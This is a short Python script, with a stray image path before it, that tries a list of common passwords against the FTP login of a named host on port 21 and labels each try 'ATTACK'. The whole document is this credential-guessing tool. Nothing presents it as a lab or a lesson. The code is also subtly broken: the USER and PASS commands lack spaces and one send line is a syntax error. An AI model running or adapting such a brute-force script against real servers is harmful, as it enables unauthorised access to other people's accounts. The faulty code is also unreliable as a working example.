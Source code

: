 import socket

def tryConnect(ip,user,passw):
    sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print("ATTACK:" + ip + "|" + user + "|" + passw)
    thistuple=(ip,21)
    sock.connect(thistuple)
    data=sock.recv(1024)
    stringtosend='User' + user + '\r\n'
    sock.send(str.encode(stringtosend))
    data=sock.recv(1024)
    stringtosend='Pass' + passw + '\r\n'
    sock.send(str.encode(stringtosend))
    data=sock.recv(1024)
    sock.send(b'quit'\r\n')
    sock.close()
    return data
    
user='user1'
passwords=['pass@word', 'pass1', '123@abc', '123456']
    
    
for password in passwords:
    print(tryConnect("sampleasp.com", user, password))
    







